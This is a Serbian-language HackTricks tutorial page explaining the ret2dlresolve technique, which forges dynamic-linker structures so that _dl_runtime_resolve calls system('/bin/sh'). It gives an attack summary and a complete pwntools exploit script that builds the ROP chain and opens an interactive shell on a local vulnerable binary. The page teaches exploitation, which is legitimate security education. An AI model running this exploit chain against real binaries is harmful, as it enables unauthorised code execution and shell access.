 # Ret2dlresolve

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Basic Information

Kao što je objašnjeno na stranici o [**GOT/PLT**](../arbitrary-write-2-exec/aw2exec-got-plt.md) i [**Relro**](../common-binary-protections-and-bypasses/relro.md), binarni fajlovi bez Full Relro će rešavati simbole (kao što su adrese do eksternih biblioteka) prvi put kada se koriste. Ova rezolucija se dešava pozivanjem funkcije **`_dl_runtime_resolve`**.

Funkcija **`_dl_runtime_resolve`** uzima sa steka reference na neke strukture koje su joj potrebne da bi rešila određeni simbol.

Stoga, moguće je **falsifikovati sve te strukture** kako bi dinamički povezano rešavanje traženog simbola (kao što je funkcija **`system`**) i pozvati je sa konfigurisanom parametrima (npr. **`system('/bin/sh')`**).

Obično, sve te strukture se falsifikuju pravljenjem **početnog ROP lanca koji poziva `read`** preko zapisive memorije, zatim se **strukture** i string **`'/bin/sh'`** prosleđuju tako da ih `read` skladišti na poznatoj lokaciji, a zatim ROP lanac nastavlja pozivajući **`_dl_runtime_resolve`** sa adresom do `$'/bin/sh'`.

{% hint style="success" %}
Ova tehnika je korisna posebno ako ne postoje syscall gadgeti (da se koriste tehnike kao što su [**ret2syscall**](rop-syscall-execv.md) ili [SROP](srop-sigreturn-oriented-programming.md)) i nema načina da se procure libc adrese.
{% endhint %}

Možete pronaći bolje objašnjenje o ovoj tehnici u drugoj polovini videa:

{% embed url="https://youtu.be/ADULSwnQs-s?feature=shared" %}

## Structures

Potrebno je falsifikovati 3 strukture: **`JMPREL`**, **`STRTAB`** i **`SYMTAB`**. Imate bolje objašnjenje o tome kako se one grade na [https://ir0nstone.gitbook.io/notes/types/stack/ret2dlresolve#structures](https://ir0nstone.gitbook.io/notes/types/stack/ret2dlresolve#structures)

## Attack Summary

1. Napisati falsifikovane strukture na nekom mestu
2. Postaviti prvi argument funkcije system (`$rdi = &'/bin/sh'`)
3. Postaviti na stek adrese do struktura da pozove **`_dl_runtime_resolve`**
4. **Pozvati** `_dl_runtime_resolve`
5. **`system`** će biti rešena i pozvana sa `'/bin/sh'` kao argumentom

## Example

Možete pronaći [**primer ove tehnike ovde**](https://ir0nstone.gitbook.io/notes/types/stack/ret2dlresolve/exploitation) **koji sadrži veoma dobro objašnjenje finalnog ROP lanca**, ali ovde je finalni exploit koji je korišćen:
```python
from pwn import *

elf = context.binary = ELF('./vuln', checksec=False)
p = elf.process()
rop = ROP(elf)

# create the dlresolve object
dlresolve = Ret2dlresolvePayload(elf, symbol='system', args=['/bin/sh'])

rop.raw('A' * 76)
rop.read(0, dlresolve.data_addr) # read to where we want to write the fake structures
rop.ret2dlresolve(dlresolve)     # call .plt and dl-resolve() with the correct, calculated reloc_offset

log.info(rop.dump())

p.sendline(rop.chain())
p.sendline(dlresolve.payload)    # now the read is called and we pass all the relevant structures in

p.interactive()
```
## Reference

* [https://youtu.be/ADULSwnQs-s](https://youtu.be/ADULSwnQs-s?feature=shared)
* [https://ir0nstone.gitbook.io/notes/types/stack/ret2dlresolve](https://ir0nstone.gitbook.io/notes/types/stack/ret2dlresolve)

{% hint style="success" %}
Učite i vežbajte AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Učite i vežbajte GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Podržite HackTricks</summary>

* Proverite [**planove pretplate**](https://github.com/sponsors/carlospolop)!
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili **pratite** nas na **Twitteru** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podelite hakerske trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>
{% endhint %}
